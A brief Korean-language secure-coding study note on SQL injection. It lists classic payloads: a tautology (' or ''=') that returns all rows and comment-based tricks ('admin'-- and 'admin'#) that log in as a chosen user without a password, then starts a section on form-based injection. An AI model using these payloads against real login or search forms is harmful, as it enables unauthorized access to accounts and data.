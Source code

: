 # SQL Injection

Class: Secure Coding
Created: Mar 12, 2020 2:43 PM
Reviewed: No
Type: SQL injection

## 쿼리 조작

---

### (전체 데이터 조회)
select * from table 
where id= '**' or ''='**' and pw='**' or ''='**'

### (특정 사용자 계정으로 로그인)
select * from table 
where id= 'admin'  — and pw='[아무 값]**'**'

select * from table 
where id= 'admin'#' and pw='[아무 값]**'**'

- 주석처리(—는 언어별 상이 할 수 있음)

## 1. Form based SQL Injection

---

- 정상 수행을 목표
- (ex) 회원가입 form, 로그인 form, 검색 form 등
- 정상 로직을 우회하여 정상 수행
- '**' or ''='**'